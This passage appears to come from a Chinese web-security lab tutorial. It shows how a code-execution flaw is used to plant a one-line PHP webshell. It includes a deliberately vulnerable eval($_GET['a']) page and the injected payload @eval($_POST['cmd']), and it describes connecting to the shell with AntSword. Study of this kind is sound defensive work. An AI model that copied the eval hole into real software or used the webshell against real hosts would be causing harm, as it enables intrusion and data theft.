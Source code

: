 ### 3.3.4. 一句话木马

利用代码执行漏洞可以配合一句话木马，然后使用工具进行连接一句话木马，从而实现获取敏感数据。

#### 3.3.4.1. 代码准备

这里就不使用pikachu靶场了，这里我们自己编写一个代码。

```
<?php
if(isset($_GET['a'])){
	eval($_GET['a']);
}
else{
	echo "please input a";
}
?>
```

#### 3.3.4.2. 访问页面

这里我们访问我们刚刚编写的页面。

![image-20230413145137362](https://s2.loli.net/2023/04/13/5Gba8KB7fzdYH9q.png)

#### 3.3.4.3. 添加一句话木马

这里我们在url后添加?a=@eval(\$\_POST\['cmd'\]),然后访问。

![image-20230413145143612](https://s2.loli.net/2023/04/13/I9wavYU2ERsTHlb.png)

#### 3.3.4.4. 连接一句话木马

这里我们使用蚁剑进行连接测试，然后连接目标主机。

![image-20230413145150073](https://s2.loli.net/2023/04/13/aMVslmuT729AUDw.png)

#### 3.3.4.5. 访问目标主机

可以看到这里我们已经能连接上目标主机。

![image-20230413145155912](https://s2.loli.net/2023/04/13/zdHL218oGPAXiql.png)

### 3.3.5. 写Shell

利用远程代码执行漏洞执行写文件的操作，使其生成后门木马。

#### 3.3.5.1. 访问页面

这里我们依旧使用之前的准备的代码。

![image-20230413145203306](https://s2.loli.net/2023/04/13/lUSRa4VijMT2Yn9.png)

#### 3.3.5.2. 拼接代码
